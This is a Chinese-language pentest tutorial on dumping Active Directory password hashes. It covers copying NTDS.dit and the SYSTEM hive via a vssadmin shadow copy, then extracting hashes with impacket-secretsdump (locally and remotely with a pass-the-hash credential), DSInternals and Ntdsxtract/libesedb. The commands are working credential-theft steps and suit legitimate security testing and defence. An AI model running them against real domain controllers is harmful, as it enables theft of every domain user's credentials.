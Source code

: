 **vssadmin**

volume shadow copy 是一个 Windows 命令行实用程序，管理员可以使用它备份计算机，卷以及文件（即使操作系统正在使用这些资源）。Volume Shadow Copy 作为一个服务运行，并要求文件系统的格式为 NTFS（默认情况下 windows 操作系统文件格式均为 NTFS）。从Windows 命令提示符执行以下命令，将会创建一个 C 盘的快照，这样我们就可以将其复制到另一个位置（如本地文件夹，网络文件夹或可移动介质）以获取它的访问权限。
```
vssadmin create shadow /for=C:
```
由于我们已经将 C 盘中的所有文件都复制到了另一个位置（HarddiskVolumeShadowCopy1），因此它们不会被操作系统直接使用，我们可以随意访问并复制其中的文件。使用 copy 命令将 NTDS.DIT 和 SYSTEM 文件，复制到本地名为 ShadowCopy 的驱动中的新建文件夹中。
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

#### NTDS转储

**Impacket-secretsdump**

- https://www.coresecurity.com/corelabs-research/open-source-tools/impacket

Impacket 是一组 python 脚本，可用于执行各种任务，包括提取 NTDS 文件的内容。impacket-secretsdump 模块需要我们提供 SYSTEM 和 NTDS 数据库文件。
```
impacket-secretsdump -system /root/SYSTEM -ntds /root/ntds.dit LOCAL

-system：表示系统 hive 文件的路径（SYSTEM）
-ntds：表示 dit 文件的路径（ntds.dit）
```

此外，impacket 可以通过使用计算机帐户及其哈希进行身份验证从 NTDS.DIT 文件远程转储域密码哈希。
```
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

**DSInternals PowerShell**

- 工具地址 : [MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

DSInternals PowerShell 模块提供了构建在框架之上的易于使用的 cmdlet。主要功能包括离线 ntds.dit 文件操作以及通过目录复制服务（DRS）远程协议查询域控制器。
```
Save-Module DSInternals -Path C:\Windows\System32\WindowsPowershell\v1.0\Modules
Install-Module DSInternals
Import-Module DSInternals
Get-Bootkey -SystemHivePath 'C:\Users\sanje\Desktop\NTDS\SYSTEM'
Get-ADDBAccount -All -DBPath 'C:\Users\sanje\Desktop\NTDS\ntds.dit' -Bootkey $key
```

**Ntdsxtract**

- 工具地址 : [libyal/libesedb](https://github.com/libyal/libesedb/)
- 相关文章 : [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)

首先我们需要从 NTDS.dit 文件中提取表格，这里我们可以通过 libesedb-tools 中的 esedbexport 来帮我们完成。Libesedb 是一个用于访问可扩展存储引擎（ESE）数据库文件（EDB）格式的库。当前，ESE 数据库格式被应用于许多不同的应用程序上，如 Windows Search，Windows Mail，Exchange，Active Directory（NTDS.dit）等。

安装
```
get https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
cd libesedb-20200418
apt-get install autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfig
```
